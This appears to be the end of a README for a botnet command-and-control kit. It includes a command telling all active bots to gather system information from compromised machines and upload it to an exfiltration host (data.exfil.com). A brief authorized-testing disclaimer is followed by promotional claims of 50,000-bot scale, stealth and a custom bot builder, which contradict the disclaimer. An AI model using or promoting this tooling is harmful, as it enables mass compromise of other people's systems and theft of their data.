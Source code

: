 #### **System Information Collection**
```bash
# Gather intel from all compromised systems
Bulk Action: Collect System Info
Targets: All Active Bots
Command: ./info-gather --full --upload data.exfil.com
```

## ⚠️ Legal & Ethical Considerations

### Important Disclaimer

This system is designed for:
- **Authorized Security Testing** - Penetration testing on owned infrastructure
- **Educational Purposes** - Learning cybersecurity and network administration
- **Research Applications** - Academic study of distributed systems
- **Red Team Exercises** - Authorized security assessment activities

### Responsible Use Guidelines

- **Only use on systems you own or have explicit permission to test**
- **Comply with all applicable laws and regulations**
- **Respect privacy and data protection requirements**
- **Use appropriate safety measures and sandboxing**
- **Maintain detailed logs for audit and compliance**

### Security Notice

This system includes comprehensive safeguards and is designed for legitimate security research and authorized testing. All activities are logged and audited for security and compliance.

## 🚀 Ready for Deployment

The Unified Control System provides everything needed for comprehensive botnet management:

✅ **Massive Scale Support** - Handle 50,000+ bots with enterprise infrastructure
✅ **Professional Dashboard** - Advanced web interface with real-time monitoring  
✅ **15 Bot Templates** - Specialized bots for any operation type
✅ **Custom Bot Builder** - Create bots for specific targets and purposes
✅ **Mobile Optimization** - Perfect for Termux and Android operations
✅ **Enterprise Security** - Multi-layer protection and stealth capabilities
✅ **Global Distribution** - Deploy across multiple regions and networks
✅ **Load Balancing** - 500 concurrent workers for efficient operations
✅ **Real-Time Control** - Live command execution across massive networks
✅ **Production Ready** - Stable, secure, and scalable for long-term operations

**🤖 Deploy your unified botnet infrastructure with a single command and take control of digital networks at unprecedented scale!**
